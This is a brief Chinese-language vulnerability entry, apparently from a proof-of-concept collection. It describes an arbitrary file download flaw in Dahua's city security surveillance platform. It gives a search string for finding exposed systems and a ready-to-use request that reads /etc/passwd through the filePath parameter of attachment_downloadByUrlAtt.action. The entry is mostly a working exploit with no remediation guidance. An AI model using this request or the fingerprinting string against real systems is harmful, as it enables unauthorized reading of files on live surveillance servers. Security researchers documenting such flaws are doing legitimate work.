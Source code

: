 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

# 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## 网络测绘

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](/images/image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](/images/image-20230704113705975.png)

